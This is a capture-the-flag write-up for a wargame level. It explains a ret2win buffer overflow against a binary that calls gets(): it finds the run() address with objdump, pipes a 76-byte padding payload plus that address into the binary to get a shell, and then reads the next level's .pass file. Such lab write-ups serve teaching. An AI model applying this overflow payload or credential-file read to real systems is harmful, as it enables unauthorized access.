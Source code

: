 ## LEVEL1

In this level, we can notice from the source code that the main function make a call to *gets()* with a buffer of size 76 bytes. We can also see that there's a *run()* function that is not called. It looks like that this level is a *ret2win*.

> A **Ret2win** is a binary file where there is a hidden function that needs to be called but is not in the main.

Thus, we can use a buffer overflow exploit to make a call to *run()* and get access to the next level.

> A **Buffer Overflow Exploit**, takes advantage of the code overflowing in an unitended part of the memory to override some data and replace it.

To do so, we'll need to make a payload to inject the address of *run()* in the memory. To get the address of that function, we'll disassemble the binary.\
-> `objdump -d level1`\
Here, we can see that the function's address is *08048444*.Next, we'll fill the 76 bytes with any random characters and insert in this address in the next 4 bytes.

We just need to put all this content in our payload.\
-> `python -c 'print"A"*76 + "\x44\x84\x04\x08"' > /tmp/payload`\
And then, use this on the binary,\
-> `cat /tmp/payload - | ./level1`\
Finally, we have access to a shell where we can get the flag for the next level.\
-> `cd ..`\
-> `cat level2/.pass`